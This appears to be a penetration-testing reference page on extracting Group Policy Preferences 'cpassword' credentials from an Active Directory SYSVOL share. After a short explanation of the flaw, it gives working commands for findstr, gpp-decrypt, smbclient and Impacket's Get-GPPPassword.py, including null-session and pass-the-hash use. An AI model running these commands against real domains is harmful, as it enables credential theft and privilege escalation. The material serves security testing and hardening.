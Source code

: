 # Overview
>Group Policy Preferences (GPP) are a powerful tool that once allowed administrators to create domain policies with embedded credentials. These policies allowed administrators to set local accounts, embed credentials for the purposes of mapping drives, or perform other tasks that may otherwise require an embedded password in a script.
>While a useful tool, the storage mechanism for the credentials was flawed and allowed attackers to trivially decrypt the plaintext credentials. While addressed in MS14-025, this patch only prevents new policies from being created, and any legacy GPPs containing credentials must be found and removed.
>Often, these kinds of policies can involve service accounts that frequently have elevated privileges. And one of these methods to find those credentials is mining SYSVOL for credential data.
>SYSVOL is the domain-wide share in Active Directory to which all authenticated users have read access. SYSVOL contains logon scripts, group policy data, and other domain-wide data which needs to be available anywhere there is a Domain Controller (since SYSVOL is automatically synchronized and shared among all Domain Controllers).
>All domain Group Policies are stored here: `\\<DOMAIN CONTROLLER>\SYSVOL\<DOMAIN>\Policies\`

# Exploit
- Look for `cpassword` in .xml files such as Groups.xml
## On Windows
```powershell
findstr /S /I cpassword \\<DOMAIN CONTROLLER>\sysvol\<DOMAIN>\policies\*.xml

# Then decrypt it on Linux
gpp-decrypt <hash>
```

## On Linux
```bash
smbclient \\\\<DOMAIN CONTROLLER>\\sysvol  
> mget * (to list all the files including policies)

# With Impacket
#with a NULL session  
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'  
  
#with cleartext credentials  
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'  
  
#pass the hash(with an NT hash)  
Get-GPPPassword.py -hashes :'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'  
  
#parse a local file  
Get-GPPPassword.py -xmlfile '/path/to/Policy.xml' 'LOCAL'
```